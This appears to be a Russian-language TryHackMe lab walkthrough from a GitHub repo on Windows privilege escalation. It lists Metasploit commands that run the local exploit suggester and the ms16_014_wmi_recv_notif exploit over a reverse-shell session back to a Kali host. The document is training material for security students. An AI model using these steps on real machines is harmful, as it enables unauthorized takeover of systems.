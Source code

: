 ВМ Windows

1. Запустить shell.exe и получить обратную оболочку

Обнаружение и эксплуатация

Кали ВМ

1. В Metasploit (msf > prompt) введите: `run post/multi/recon/local_exploit_suggester`
2. Определите `Exploit/windows/local/ms16_014_wmi_recv_notif` как потенциальную возможность повышения привилегий
3. В Metasploit (msf > prompt) введите: `use  Exploit/windows/local/ms16_014_wmi_recv_notif`
4. В Metasploit (msf > prompt) введите:  `set SESSION [meterpreter SESSION number]`
5. В Metasploit (msf > prompt) введите: `set LPORT 5555`
6. В Metasploit (msf > prompt) введите: `run `

ПРИМЕЧАНИЕ: Оболочка может по умолчанию использовать ваш eth0 во время этой атаки. Если это так, убедитесь, что  вы 
ввели `set lhost [IP-адрес Kali VM ]` и запустите снова.


### Ответьте на вопросы ниже
Нажмите «Завершено» после успешного повышения уровня машины.
```commandline
Ответ не нужен
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)